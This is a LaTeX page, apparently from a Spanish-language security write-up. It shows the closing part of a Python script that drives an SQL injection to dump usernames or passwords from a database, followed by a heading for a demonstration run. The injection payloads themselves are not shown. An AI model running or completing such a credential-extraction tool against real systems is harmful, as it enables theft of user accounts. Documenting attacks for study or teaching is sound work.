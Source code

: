 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python, basicstyle=\ttfamily\footnotesize]
    while True:
        opcion = input("Opción (1 o 2): ").strip()
        if opcion == "1":
            campo = "username"
            break
        elif opcion == "2":
            campo = "password"
            break
        else:
            print(colored("[!] Introduce una opción válida (1 o 2).", "red"))

    return campo


def main():
    """
    Función principal que coordina el proceso de inyección SQL para extraer múltiples filas.
    """
    start_time = time.time()
    campo = menu()
    resultados = extraer_todos_los_campos(campo)
    print(colored("\n[+] Resultados completos:", "blue", attrs=["bold"]))
    for i, resultado in enumerate(resultados, start=1):
        if campo == "username":
            print(colored(f"Usuario {i}: {resultado}", "cyan"))
        else:
            print(colored(f"Contraseña {i}: {resultado}", "green"))

    print(colored(f"\n[+] Tiempo de ejecución: {round(time.time() - start_time, 2)} segundos", "blue", attrs=["bold"]))


if __name__ == "__main__":
    main()
\end{lstlisting}

\subsection{Ejecución completa del script dumpeando usuarios}
A continuación se muestra la ejecución completa del script para extraer los nombres de usuario de la base de datos.
\end{document}
